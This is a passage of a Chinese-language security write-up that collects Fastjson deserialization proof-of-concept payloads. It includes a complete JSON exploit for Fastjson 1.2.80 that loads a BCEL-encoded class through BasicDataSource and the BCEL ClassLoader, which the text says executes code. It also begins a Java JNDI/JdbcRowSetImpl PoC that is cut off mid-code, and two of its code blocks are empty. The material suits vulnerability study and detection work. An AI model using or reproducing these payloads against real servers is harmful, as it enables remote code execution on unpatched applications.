积累的两个poc  
,基于黑名单绕过fastjson <= 1.2.62  
```
```  
  
  
基于fastjson<=1.2.66  
的poc  
```
```  
###   
### 七、Fastjson 1.2.80版本  
  
构造poc  
如下，成功弹出计算器  
```
{
    "a": {
        "@type": "java.lang.Class",
        "val": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"
    },
    "b": {
        "@type": "java.lang.Class",
        "val": "com.sun.org.apache.bcel.internal.util.ClassLoader"
    },
    "c": {
        "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
        "driverClassLoader": {
            "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        "driverClassName": "$$BECL$$$l$8b$I$A$A$A$A$A$A$AeP$bbN$CA$U$3d$D$cb$O$ac$8b$bc$c47$sV$82$854v$Q$h$a3$W$e2$pb$b4$k$c6$J$Z$5cv$c92$Y$fe$c8$9aF$8d$85$l$e0G$Z$efl$M$908$c5$7d$9c$c7$bd7$f3$fd$f3$f9$F$e0$Y$7b$k8J$k$ca$a8d$b1fs$95c$9dc$83c$93$c1m$ebP$9b$T$86t$bd$f1$c0$e0$9cFO$8a$a1$d0$d1$a1$ba$9e$M$7b$w$be$X$bd$80$90l$5b$G$7f$ca$7c$d7$I$f9$7c$rF$JE$b3$Y$bcn4$89$a5$3a$d7$89TMGG$D$f1$o$7cd$91$e3$d8$f2$b1$8d$j$9a$zE$m$7d$ec$a2$c6P$b1$7c3$Qa$bfy6$95jdt$U$d2$N$e4d$u$$$b8$9b$de$40I$c3PZ$40w$93$d0$e8$n$ad$f1$fa$ca$cc$9bj$bd$d1$f9$a7i$d1N5U$92$e1$a0$be$c4vM$ac$c3$7ek$d9p$hGR$8d$c7$z$ec$c3$a5$df$b2$_$Ff$cf$a7$e8QW$a3$cc$ug$O$df$c1fT0$acPt$T$d0$K$fd$b9$f4$o$b1$C$ab$lH$95$d3op$k_$e1$5c$ce$S$yG$ba$M$f1$d6$5b$86C$d1$n$ccM$d0$3c$z$ce$T$c2$91$eap$ac$da$b1$85$e4$8e$e2$_$M$c2$l$G$cb$B$A$A"
    }
}
```  
  
             
### 八、bit4woo师傅汇总的POC  
  
**参考文档：**  
  
https://github.com/bit4woo/code2sec.com/blob/master/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0%E5%AE%9E%E8%B7%B5%E4%B8%83%EF%BC%9Afastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96PoC%E6%B1%87%E6%80%BB.md  
####   
#### 1、基于com.sun.rowset.JdbcRowSetImpl的PoC1  
  
该PoC需要使用JNDI，需要搭建web服务，RMI服务或LDAP服务，利用相对麻烦。但对于检测fastjson漏洞是否存在，这个却是最简单有效的（结合DNSlog）。  
```
package fastjsonPoCs;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
/*
 * 基于JNDI的PoC,可用的JNDI服务器有RMI，ldap。
 * 
 */
public class PoC1JNDI {
  public static void main(String[] argv){
    String xx = payload();
  }
  public static String payload(){
```